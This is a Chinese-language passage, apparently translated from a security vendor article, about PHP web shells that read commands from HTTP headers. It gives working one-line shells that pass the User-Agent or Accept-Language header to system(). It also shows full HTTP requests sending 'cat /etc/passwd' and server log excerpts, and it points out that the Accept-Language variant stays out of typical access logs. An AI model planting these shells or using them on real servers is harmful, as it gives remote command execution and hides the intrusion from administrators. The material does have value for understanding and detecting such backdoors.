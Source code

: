 
使用user agnet字段传递命令，而不是通过$ _POST请求参数传递命令。

    
    <code><?php system($_SERVER['HTTP_USER_AGENT'])?>
    </code>


然后，攻击者将通过将命令放在“User-Agent”HTTP头中来处理特定的HTTP请求。

    
    <code>GET /demo/shell.php HTTP/1.1
    Host: 192.168.5.25
    Connection: keep-alive
    Pragma: no-cache
    Cache-Control: no-cache
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Upgrade-Insecure-Requests: 1
    User-Agent: cat /etc/passwd
    Accept-Encoding: gzip, deflate, sdch
    Accept-Language: en-GB,en-US;q=0.8,en;q=0.6,el;q=0.4
    </code>


![](http://www.acunetix.com/wp-content/uploads/2016/06/image04.png)
这种方法仍然可以在服务器日志中看到，其中第二个请求的HTTP“User-Agent”被cat /etc/passwd命令替代。

    
    <code>192.168.5.26 - - [28/Apr/2016:20:38:28 +0100] "GET /demo/shell.php HTTP/1.1" 200 196 "-" "Mozilla/5.0 (Windows NT 6.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.112 Safari/537.36"
    192.168.5.26 - - [28/Apr/2016:20:38:50 +0100] "GET /demo/shell.php HTTP/1.1" 200 1151 "-" "cat /etc/passwd"
    </code>


上面的方法管理员查看服务器日志可以很轻易的发现。下面这个就不是了

    
    <code><?php system($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
    </code>





* * *




    
    <code>GET /demo/shell.php HTTP/1.1
    Host: 192.168.5.25
    Connection: keep-alive
    Pragma: no-cache
    Cache-Control: no-cache
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 6.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.112 Safari/537.36Accept-Encoding: gzip, deflate, sdch
    Accept-Language: cat /etc/passwd
    </code>
